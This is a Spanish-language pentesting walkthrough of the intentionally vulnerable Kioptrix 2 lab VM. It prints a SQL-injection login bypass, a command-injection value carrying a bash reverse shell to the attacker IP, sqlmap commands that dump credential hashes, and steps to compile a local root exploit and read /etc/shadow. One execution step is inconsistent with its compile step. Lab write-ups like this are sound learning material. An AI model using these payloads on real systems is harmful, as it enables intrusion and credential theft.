[[Ciberseguridad.base]] #Pentesting #Maquinas #Linux 

Para realizar esta segunda máquina de Kioptrix, tenemos que tener en cuenta las mismas cosas que en la anterior: probar el flujo habitual y típico del pentesting: reconocimiento y enumeración, explotación, escalada de privilegios y post-explotación. 

El objetivo de esta máquina es claro: conseguir acceso root. 

Vamos a asumir que mi VM atacante es: 192.168.56.101 y Kioptrix 2 (la máquina vulnerable): 192.168.56.102

Hay dos formas de hacer esta máquina. Una más rápida y fácil, más directa, y otra que va paso a paso y es bastante más complicada.

## 1ª Forma: rápida y directa

#### Reconocimiento y enumeración

En este caso, usamos netdiscover para ver dónde está nuestra máquina Kioptrix2. La localizamos en el segundo lugar: 



Una vez identificada la máquina pasamos a la enumeración:



Vemos variedad de servicios abiertos: SSH, HTTP, RCP, HTTP con SSL, IPP y MySQL. 
Podemos intentar acceder a través de todos ellos, pero yo lo voy a hacer a través de HTTP, a ver si el Apache lo puedo explotar y después veré si voy a MySQL o SSH. 

#### Explotación 

Paso al servicio HTTP abierto en el puerto 80. 

- **HTTP**: puerto 80/tcp.
- **Servicio**: Apache httpd 2.0.52 (CentOS).
- **Hallazgos**: fácilmente explotable a través de un SQL injection que nos deja entrar dentro del panel. Luego un command injection permite ejecutar comandos dentro del sistema a través del formulario de ping.
- **Impacto**: crítico → compromete confidencialidad e integridad, dando acceso a todo el servicio HTTP.
- **Explotación práctica**: SQL injection y Command injection.
-  Ruta típica de ataque:
1. 	Enumeración del servicio web en puerto 80.
2. 	SQL Injection en login → acceso al panel.
3. 	Command Injection en formulario de ping → ejecución de comandos.
4. 	Uso de credenciales para pivotar a SSH → escalada de privilegios.

Lo primero que veo es un panel de acceso.



¿Cuál es el problema de este panel? Que es vulnerable a SQL injection. Por ejemplo, poniendo: "' OR '1'='1" en el campo de la contraseña. Como la entrada de usuario está mal validada, el servidor me deja entrar: 



Si probamos la inyección de comandos tenemos esto: 



El servicio ejecuta el ping y, después, el comando "ls", lo cual nos permite listar los archivos del sistema y ver que tiene dos: "index.php" y "pingit.php". Viendo que podemos hacer uso del sistema a través de comandos, podemos escalar los privilegios.

Podemos también ver qué usuarios hay en el sistema: 



Una vez tenemos esto, podemos intentar pivotar, porque ya conocemos los usuarios. Lo intentaré ahora en MySQL.

Intenté conectarme directamente a MySQL pero no lo conseguí:



Tenía contraseña y no se podía. Así que volví al panel del principio.  

En él tampoco conseguí nada. Así que me propuse buscar exploits para el sistema operativo del servicio HTTP que explotamos al principio:



Detectamos que hay uno, el primero, que se ajusta perfectamente a lo que necesitamos. 

Pero para usar el exploit necesitaba una shell, una shell que pudiera usar. Así que volví a lo único que tenía, que era el formulario de ping y probé varias formas de conseguir una shell. La única que funcionó fue lanzarla con Bash. 



En concreto:

		"192.168.56.101;bash -i >& /dev/tcp/192.168.56.101/3000 0>&1"

Pero antes, usé una ventana de la terminal de la VM atacante tuve que ponerla a escuchar con nc:



Y funcionó. Ya tenemos reverse shell. 

Para pasar el exploit de la máquina atacante a la Kioptrix lo hacemos a través de Python:



Lo descargamos y verificamos que lo tenemos dentro de la máquina víctima:



En efecto, ya está dentro. 

#### Escalada de privilegios

Para escalar privilegios lo que hacemos ahora es compilar el archivo del exploit. Lo hacemos así:

				"gcc 9542.c -o exploit"

Y luego simplemente ejecutamos:

						"./9542.c"

El resultado de esto es:



Hemos escalado y ya somos root. Hemos conseguido acceso total aprovechando la vulnerabilidad del sistema. 

#### Post-explotación

Siendo root puedo acceder ya a etc/shadow y ver los hashes de los usuarios. Ya no tiene tal vez mucho sentido que los extraiga. Busqué un archivo como el de Kioptrix 1 donde me felicitara por resolver la máquina, pero no había nada. 
Así que la máquina queda terminada con el acceso a root. 
Ha sido complicada para mí, bastante más que Kioptrix 1, y me he bloqueado por momentos, pero la he resuelto. 

Como resumen de lo que he hecho en esta primera manera:
- **Reconocimiento inicial**
    
    - Escaneo de servicios → sin acceso útil por MySQL ni SSH.
    - Identificación del formulario de ping vulnerable a inyección de comandos.
    
- **Pruebas de ejecución**
    
    - Confirmación de que el formulario ejecuta comandos simples (`echo`, `whoami`).
    - Fallo de payloads típicos con Python y Netcat (`nc -e` no disponible).
    - Ajuste hasta encontrar el payload funcional con Bash:
    
				    "bash -i >& /dev/tcp/[IP]/3000 0>&1"
    
- **Reverse shell establecida**
    
    - Listener en Netcat recibe conexión como usuario `apache`.
    - Mejora de la shell con `python -c 'import pty; pty.spawn("/bin/bash")'`.
    
- **Problemas encontrados y soluciones**
    
    - `wget https://...` falla por incompatibilidad TLS → solución: descargar en Kali y servir por HTTP local.
    - Error `Text file busy` al ejecutar exploit → solución: compilar y ejecutar en pasos separados o mover binario.
    - `/home` inaccesible → uso de `/tmp` como directorio de trabajo.
    
- **Escalada de privilegios**
    
    - Transferencia del exploit local al `/tmp`.
    - Compilación con `gcc exploit.c -o exploit`.
    - Ejecución exitosa → acceso a `root`.
    
- **Validación y exploración final**
    
    - Confirmación con `whoami` → `root`.
    - Acceso a `/etc/shadow` y directorios restringidos.
    - Constatación de que no existe archivo `congrats.txt` en esta máquina: la validación es el acceso a root.

## 2ª forma: escalada poco a poco

#### Explotación

1º: Después de que hemos hecho las mismas cosas que en la 1ª forma y hemos llegado a listar los usuarios con "cat /etc/passwd", podemos hacer una cosa. El formulario de login es vulnerable a inyecciones SQL más allá de "' OR '1'='1". En concreto, es vulnerable a Blind SQL Injection, que nos permite adivinar qué hash tiene un usuario. Pero hay que hacerlo carácter a carácter y es muy lento. Es inviable hacerlo manualmente. 
Para conseguir sacar la base de datos interna necesitamos dos herramientas: **Burpsuite** y **SQLmap**. 

2º: Con Burpsuite activado e interceptando peticiones, nos vamos al panel de login de la IP de la máquina Kioptrix y probamos, por ejemplo, el usuario root y una contraseña cualquiera. Cuando le demos a enter, Burpsuite interceptará la petición y nos la mostrará:



3º: Cuando intentemos usar el enlace de la petición en SQLmap no vamos a sacar nada. SQLmap no puede sacar la base de datos dándole manualmente los parámetros. No va a encontrar ninguna tabla. Pero hay una forma de conseguir que SQLmap lea la petición y sea capaz de realizar la Blind SQL Injection: guardar la petición cruda en un archivo. 

Nos vamos a HTTP History y damos doble click a la petición que hemos hecho. Buscamos la opción **Save item** y guardamos la petición en un archivo txt. Por ejemplo: "req.txt". 

Deberíamos tener en ese archivo una estructura de datos así: 



4º: Usamos este parámetro en SQLmap para detectar la base de datos: 

					"sqlmap -r req.txt \
					       --level=5 --risk=3 \
					       --batch \
					       --flush-session \
					       --tamper=space2comment \
					       --dump
					"

Nos va a encontrar parámetros inyectables: 



Confirmamos que el parámetro "uname" (que es el del nombre de usuario) es vulnerable: 



Vamos a encontrar una tabla: "webapp". Con este parámetro sacamos más información y empezamos a sacar la tabla, aunque no es instantáneo:

			"sqlmap -r req.txt -D webapp --tables"



Tenemos de qué está hecho el backend, el sistema operativo, la tecnología de la aplicación web, etc. La tabla está detectada. Pero para poder extraer sus datos, nos va a preguntar si queremos usar un diccionario de columnas comunes, porque no puede listar automáticamente las columnas (he ahí la dificultad del Blind SQL Injection). En concreto nos saldrá esto:

	"do you want to use common column existence check? [y/N/q] y
	which common columns (wordlist) file do you want to use?
	[1] default '/usr/share/sqlmap/data/txt/common-columns.txt' (press Enter)
	[2] custom"

Le damos al 1 y nos saca ya una tabla, la de usuarios:



Con esto hemos avanzado bastante. Pero con la primera opción no terminaba de ver dentro de la tabla ni de conseguir sus usuarios y contraseñas. Repitiendo el proceso, enumerando las columnas, con: 

		"sqlmap -r req.txt -D webapp -T users --common-columns"

Dándole a la segunda opción ([2] custom) ya detectó y sacó todo: 



Tenemos id, username y password. 

Ahora volcamos los registros con este comando: 

			"sqlmap -r req.txt -D webapp -T users -C username,password --dump --threads=4"

Este comando selecciona las columnas: "username" y "password"; --dump extrae los datos; --threads=4 acelera el proceso de inferencia, porque SQLi es lento. 

Y nos saldrá esto:



Con esto tenemos dos usuarios con sus hashes. Además, el archivo nos ha quedado guardado en un csv:



Todo esto ha funcionado así porque SQLmap infiere carácter a carácter, no porque consiguiera los datos directamente. Pero ya lo tenemos. Podemos pasar ahora los hashes a John The Ripper.

5º: 

Los hashes no funcionaron, así que había que buscar otra manera. 
Pero no la encontré. Habría que volver a la 1ª forma: sacar una shell con Bash en el formulario de ping, traerse el exploit para explotar la vulnerabilidad del sistema y escalar a root.
En un entorno real esta técnica sería capaz de comprometer un sistema entero.

Viendo que no pude pivotar a SSH y luego obtener root, considero la máquina terminada de estas dos formas. 

El contenido de este trabajo es para fines educativos en entornos controlados. El autor no se hace cargo de posibles usos indebidos o maliciosos que puedan hacerse de la información que contiene. 
El propósito de estos ejercicios es aprender cómo funcionan las vulnerabilidades y mejorar las defensas de los sistemas. 
Estas son máquinas diseñadas específicamente para ser vulneradas y exploradas.